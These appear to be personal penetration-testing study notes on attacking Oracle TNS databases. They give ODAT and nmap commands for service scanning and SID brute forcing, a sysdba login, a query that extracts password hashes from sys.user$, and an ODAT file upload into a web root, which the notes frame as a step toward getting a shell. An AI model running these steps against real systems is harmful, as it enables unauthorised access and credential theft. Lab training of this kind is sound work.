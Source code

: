 ### Features
#Oracle Transport Network Substrate  ( #TNS ) 
Often used for managing large complex databases in healthcare, finance and retail.
Built-in encryption 
By default can be managed Remotely  

### Configuration 
Files called tnsnames.ora or listener.ora
	ORACLE_HOME/network/admin 
	client side use tnsnames and server side uses listener,
Each database has a unique tnsnames.ora file.
	Contains necessary information for clients to connect to the service 
	
|**Setting**|**Description**|
|---|---|
|`DESCRIPTION`|A descriptor that provides a name for the database and its connection type.|
|`ADDRESS`|The network address of the database, which includes the hostname and port number.|
|`PROTOCOL`|The network protocol used for communication with the server|
|`PORT`|The port number used for communication with the server|
|`CONNECT_DATA`|Specifies the attributes of the connection, such as the service name or SID, protocol, and database instance identifier.|
|`INSTANCE_NAME`|The name of the database instance the client wants to connect.|
|`SERVICE_NAME`|The name of the service that the client wants to connect to.|
|`SERVER`|The type of server used for the database connection, such as dedicated or shared.|
|`USER`|The username used to authenticate with the database server.|
|`PASSWORD`|The password used to authenticate with the database server.|
|`SECURITY`|The type of security for the connection.|
|`VALIDATE_CERT`|Whether to validate the certificate using SSL/TLS.|
|`SSL_VERSION`|The version of SSL/TLS to use for the connection.|
|`CONNECT_TIMEOUT`|The time limit in seconds for the client to establish a connection to the database.|
|`RECEIVE_TIMEOUT`|The time limit in seconds for the client to receive a response from the database.|
|`SEND_TIMEOUT`|The time limit in seconds for the client to send a request to the database.|
|`SQLNET.EXPIRE_TIME`|The time limit in seconds for the client to detect a connection has failed.|
|`TRACE_LEVEL`|The level of tracing for the database connection.|
|`TRACE_DIRECTORY`|The directory where the trace files are stored.|
|`TRACE_FILE_NAME`|The name of the trace file.|
|`LOG_FILE`|The file where the log information is stored.|

### #Footprinting 
#### May need to download some files: 
```bash
#!/bin/bash

sudo apt-get install libaio1 python3-dev alien python3-pip -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
sudo submodule update
sudo apt install oracle-instantclient-basic oracle-instantclient-devel oracle-instantclient-sqlplus -y
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor pycryptodome passlib python-libnmap
sudo pip3 install argcomplete && sudo activate-global-python-argcomplete
```


### Test Installation with #odat 
```shell-session
./odat.py -h
```

### #NMAP
```shell-session
sudo nmap -p1521 -sV <ip> --open
```
#### SID Brute Forcing 
```shell-session
sudo nmap -p1521 -sV <ip> --open --script oracle-sid-brute
```

### #ODAT 
```shell-session
./odat.py all -s <ip>
```

### SQLplus Login 
```shell-session
sqlplus <user>/<pass>@10.129.204.235/XE;
```

"`sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory`,":
```shell-session

```

### Database Interaction
```shell-session
select table_name from all_tables;
```
```shell-session
sqlplus <user/<pass>@<ip>/XE as sysdba
```
#### Extract Password Hashes
```shell-session
select name, password from sys.user$;
```

### #Shells 
Requires web server to be run and root directory 

|**OS**|**Path**|
|---|---|
|Linux|`/var/www/html`|
|Windows|`C:\inetpub\wwwroot`|

```shell-session
echo "Oracle File Upload Test" > testing.txt
./odat.py utlfile -s <ip> -d XE -U <user> -P <pass> --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```
